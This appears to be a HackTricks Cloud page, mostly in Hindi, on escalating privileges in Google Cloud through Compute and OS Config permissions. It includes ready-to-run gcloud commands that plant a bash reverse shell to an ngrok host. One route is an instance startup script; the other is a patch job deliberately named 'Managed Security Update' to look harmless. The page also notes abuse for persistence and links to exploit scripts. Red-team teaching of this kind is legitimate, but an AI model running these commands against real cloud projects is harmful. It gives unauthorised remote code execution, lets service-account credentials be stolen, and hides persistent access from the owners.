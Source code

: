 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCP में Compute और VPC (नेटवर्क) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
ध्यान दें कि उन सभी विशेषाधिकार वृद्धि हमलों को करने के लिए जो इंस्टेंस के मेटाडेटा को संशोधित करने की आवश्यकता होती है (जैसे नए उपयोगकर्ताओं और SSH कुंजियों को जोड़ना) यह **आवश्यक है कि आपके पास इंस्टेंस से जुड़े SA पर `actAs` अनुमतियाँ हों**, भले ही SA पहले से ही जुड़ा हो!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

उस अनुमति के साथ आप **संशोधित** कर सकते हैं **मेटाडेटा** जानकारी को एक **इंस्टेंस** का और **एक उपयोगकर्ता की अधिकृत कुंजियों** को बदल सकते हैं, या **sudo** अनुमतियों के साथ **एक नया उपयोगकर्ता बना सकते हैं**। इसलिए, आप किसी भी VM इंस्टेंस में SSH के माध्यम से exec करने में सक्षम होंगे और उस GCP सेवा खाते को चुरा सकते हैं जिसके साथ इंस्टेंस चल रहा है।\
सीमाएँ:

* ध्यान दें कि VM इंस्टेंस में चलने वाले GCP सेवा खातों का डिफ़ॉल्ट रूप से **बहुत सीमित दायरा** होता है।
* आपको लॉगिन करने के लिए **SSH** सर्वर से **संपर्क करने में सक्षम होना चाहिए**।

इस अनुमति का लाभ उठाने के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

आप नए स्टार्टअप-स्क्रिप्ट को जोड़कर और इंस्टेंस को पुनरारंभ करके भी इस हमले को कर सकते हैं:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

यह अनुमति **पिछली अनुमति के समान विशेषाधिकार देती है** लेकिन एक विशिष्ट उदाहरण पर, पूरे प्रोजेक्ट के बजाय। **पिछले अनुभाग के लिए समान शोषण और सीमाएँ लागू होती हैं**।

### `compute.instances.setIamPolicy`

इस प्रकार की अनुमति आपको **पिछली अनुमतियों के साथ एक भूमिका देने** और उनका दुरुपयोग करके विशेषाधिकार बढ़ाने की अनुमति देगी।

### **`compute.instances.osLogin`**

यदि **OSLogin उदाहरण में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और उदाहरण से कनेक्ट कर सकते हैं। आपके पास उदाहरण के अंदर **रूट विशेषाधिकार नहीं होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM उदाहरण के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### **`compute.instances.osAdminLogin`**

यदि **OSLogin उदाहरण में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और उदाहरण से कनेक्ट कर सकते हैं। आपके पास उदाहरण के अंदर **रूट विशेषाधिकार होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM उदाहरण के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

यह संभव है कि **एक असाइन की गई सेवा खाता के साथ एक वर्चुअल मशीन बनाई जाए और सेवा खाता का टोकन चुराया जाए** जिससे विशेषाधिकार बढ़ाए जा सकें।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) मिल सकती है।

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

यदि आपके पास **`osconfig.patchDeployments.create`** या **`osconfig.patchJobs.exec`** अनुमतियाँ हैं, तो आप एक [**पैच नौकरी या तैनाती**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) बना सकते हैं। यह आपको वातावरण में पार्श्व रूप से आगे बढ़ने और प्रोजेक्ट के भीतर सभी कंप्यूट उदाहरणों पर कोड निष्पादन प्राप्त करने की अनुमति देगा।

ध्यान दें कि वर्तमान में आपको **उदाहरण से जुड़े SA पर `actAs` अनुमति** की आवश्यकता नहीं है।

यदि आप इसे मैन्युअल रूप से शोषित करना चाहते हैं, तो आपको या तो एक [**पैच नौकरी**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **या** [**तैनाती**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** बनानी होगी।**\
पैच नौकरी चलाने के लिए: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

एक पैच डिप्लॉयमेंट को लागू करने के लिए:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) को इस गलत कॉन्फ़िगरेशन का लाभ उठाने के लिए अतीत में उपयोग किया जा सकता था (लेकिन अब यह काम नहीं कर रहा है)।

**एक हमलावर इसे स्थायीता के लिए भी दुरुपयोग कर सकता है।**

### `compute.machineImages.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** कंप्यूट इमेज पर दें।

### `compute.snapshots.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** एक डिस्क स्नैपशॉट पर दें।

### `compute.disks.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** एक डिस्क पर दें।

### एक्सेस स्कोप को बायपास करें

इस लिंक का पालन करते हुए आप कुछ [**विचार पाएंगे एक्सेस स्कोप को बायपास करने के लिए**](../)।

### GCP Compute इंस्टेंस में स्थानीय विशेषाधिकार वृद्धि

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
